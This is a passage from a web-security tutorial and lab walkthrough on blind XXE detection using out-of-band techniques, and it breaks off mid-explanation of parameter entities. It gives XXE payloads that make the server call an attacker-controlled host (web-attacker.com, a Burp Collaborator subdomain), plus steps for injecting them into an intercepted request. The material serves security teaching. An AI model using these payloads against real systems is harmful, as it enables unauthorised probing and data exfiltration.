 Many instances of XXE vulnerabilities are blind. The application does not return the values of any defined external entities in its responses, and so direct retrieval of server-side files is not possible.

You can sometimes use out-of-band techniques to find vulnerabilities and exploit them to exfiltrate data. And you can sometimes trigger XML parsing errors that lead to disclosure of sensitive data within error messages.

- You can trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
- You can trigger XML parsing errors in such a way that the error messages contain sensitive data.

## Detecting blind XXE using out-of-band (OAST) techniques

You can often detect blind XXE using the same technique as for XXE SSRF attacks but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.

### Blind XXE with out-of-band interaction

This lab has a "Check stock" feature that parses XML input but does not display the result.
You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.
To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

**Solution**
1. Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
2. Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:
    ```
    <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
    ```
3. Replace the productId number with a reference to the external entity:
    ```&xxe;```
4. Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:
